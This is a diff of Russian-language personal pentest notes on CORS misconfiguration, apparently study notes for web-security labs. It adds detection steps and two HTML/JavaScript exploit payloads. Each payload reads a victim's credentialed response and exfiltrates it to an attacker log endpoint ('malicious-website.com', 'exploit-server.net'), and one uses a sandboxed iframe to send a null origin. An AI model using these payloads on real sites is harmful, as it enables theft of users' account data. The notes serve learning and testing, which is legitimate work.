

Before and after one commit to FIR-UIII/notes, a Markdown page: Pentest/Web.md, the part around the change. GitHub-like rendering; pictures changed too: Media/cors-vulnerability-with-basic-origin-reflection.png (added); blank space fills up the shorter version.

Commit message:
UPD/

````diff
--- a/Pentest/Web.md
+++ b/Pentest/Web.md
@@ -9,22 +9,46 @@ Fuzzing
 
 
 # CORS
-Политика обходящая SOP. Цель зать доступ другим сайтам к ресурсам твоего сайта
-### CORS vulnerability with basic origin reflection
+Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера
+#### CORS vulnerability with basic origin reflection
 Получить любой ответ от сервера
 Проверить наличие заголовков Access-Control-Allow-...
-Вставить через прокси заголовок `Origin: https://hello.world`
+Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
 Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
-```js
-<script>
-    var req = new XMLHttpRequest();
-    req.onload = reqListener;
-    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
-    req.withCredentials = true;
-    req.send();
+<img src="../Media/cors-vulnerability-with-basic-origin-reflection.png" alt="drawing" width="150"/>
+```html
+<html><body><script>
+        var req = new XMLHttpRequest();
+        req.onload = reqListener;
+        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
+        req.withCredentials = true;
+        req.send();
+        function reqListener() {
+            location='//malicious-website.com/log?key='+this.responseText;
+        };
+</script></body></html>
+```
 
-    function reqListener() {
-        location='/log?key='+this.responseText;
-    };
-</script>
+```html
+<html>
+    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
+            var req = new XMLHttpRequest();
+            req.onload = reqListener;
+            req.open('get','X.web-security-academy.net/accountDetails',true);
+            req.withCredentials = true;
+            req.send();
+            function reqListener() {
+                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
+            };
+        </script>"></iframe>
+</html>
 ```
+
+#### Exploiting XSS via CORS trust relationship
+|---|---|
+|GET /api/requestApiKey HTTP/1.1
+Host: vulnerable-website.com
+Origin: https://subdomain.vulnerable-website.com
+Cookie: sessionid=...|HTTP/1.1 200 OK
+Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
+Access-Control-Allow-Credentials: true|
````
Also changed, not shown: Network/Cбор логов.md (+0 -1 lines), 1 other file.
